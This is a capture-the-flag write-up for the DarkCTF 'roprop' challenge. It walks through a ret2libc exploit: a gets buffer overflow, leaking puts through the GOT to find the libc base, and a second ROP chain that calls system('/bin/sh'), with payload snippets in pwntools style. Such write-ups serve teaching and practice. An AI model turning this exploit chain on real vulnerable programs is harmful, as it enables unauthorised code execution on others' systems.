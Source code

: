 # roprop
Basic ret2libc problem, there is no useful function in the binary, if PIE is disabled, we can use ret2libc to run system in libc.

Check the security first:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE is disabled, we can find the plt.got table address correctly.

In main function, there is a gets function call, which can be used to do buffer overflow.

Check the plt table:
```
...
Breakpoint 6 at 0x400660 (puts@plt)
...
``` 
We have puts function in plt table, so we can use puts to leak the base address of the libc, and use the base address to calculate system address.

Since base address will be different in every execution, we need to jump to the beginning of the main, to send payload again with same base address.
We need to do rop chain twice, first time leak the base address, second time call system function in libc.

We can use ldd command to find the libc version.

The first payload will be:
```
gadget2 = 0x00400963 # pop rdi; ret;
align_gadget = 0x00400646 # ret;
...
payload = b'A'*88 + p64(align_gadget) + p64(gadget2) + p64(got_puts) + p64(plt_puts) + p64(main)  
...
```
Align gadget is used to deal with the x86 64 stack alignment problem, with only ret; but do nothing. We call puts function to print puts got table address, and substract the offset of the puts function in libc, then we can obtain base address in this execution.

```
...
libc_puts = proc.recvline() # obtain puts got address
# leak base address
libc_puts = u64(libc_puts[:-1].ljust(8, b'\x00')) 
libc_base = libc_puts - libc.symbols['puts'] # obtain base address
libc_system = libc_base + libc.symbols['system'] # calculate system address
libc_binsh = libc_base + libc.search('/bin/sh').next() # find string '/bin/sh' in libc
...
```
Now, we have jump to the beginning of the main, and can send second payload.

The second payload will be:
```
...
payload = b'A'*88 + p64(gadget2) + p64(libc_binsh) + p64(libc_system) 
...
```
Execute the exploit.py, we obtain the flag:
```
darkCTF{y0u_r0p_r0p_4nd_w0n}
```

